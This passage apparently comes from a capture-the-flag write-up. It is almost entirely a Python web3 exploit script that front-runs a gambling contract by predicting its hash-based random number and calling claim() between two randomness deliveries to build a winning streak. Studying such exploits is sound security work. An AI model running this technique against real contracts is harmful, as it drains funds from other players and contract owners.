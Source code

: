 ```python

# front run
blocknum = web3.eth.get_block_number()
seed_blocknum = blocknum + 1

_number = int(hashlib.sha256(bytes.fromhex(packed.encode_packed(['uint256', 'address', 'uint256'], [seed, wallet, seed_blocknum]).hex())).hexdigest(), 16) % 100000000

nonce += 1
gasPrice = web3.eth.gas_price
gasLimit = 200000

tx = {
    'nonce': nonce,
    'gas': gasLimit,
    'gasPrice': randomness_gas_fee * 2,
    'from': wallet,
    'value': web3.to_wei(0.001, 'ether') + 1
}
transaction = gambling_contract.functions.enter(_number).build_transaction(tx)
signed_tx = web3.eth.account.sign_transaction(transaction, private_key)
tx_hash = web3.eth.send_raw_transaction(signed_tx.rawTransaction)
transaction_hash = web3.to_hex(tx_hash)
print("Front run enter() :", transaction_hash)
print("Seed :", seed)
print("Wallet :", wallet)
print("Seed block :", seed_blocknum)
print("Guess number :", _number)

# Immediately claim after 1st randomness is delivered but before 2nd randomness is delivered
web3.eth.wait_for_transaction_receipt(first_randomness)
print("First randomness is delivered :", first_randomness)
print("Attempt to claim before 2nd randomness is delivered...")
nonce += 1
gasPrice = web3.eth.gas_price
gasLimit = 200000

tx = {
    'nonce': nonce,
    'gas': gasLimit,
    'gasPrice': randomness_gas_fee * 2,
    'from': wallet
}
transaction = gambling_contract.functions.claim().build_transaction(tx)
signed_tx = web3.eth.account.sign_transaction(transaction, private_key)
tx_hash = web3.eth.send_raw_transaction(signed_tx.rawTransaction)
transaction_hash = web3.to_hex(tx_hash)
print("Claim() :", transaction_hash)
```

Then run it for 5 times to have a streak of 5 :
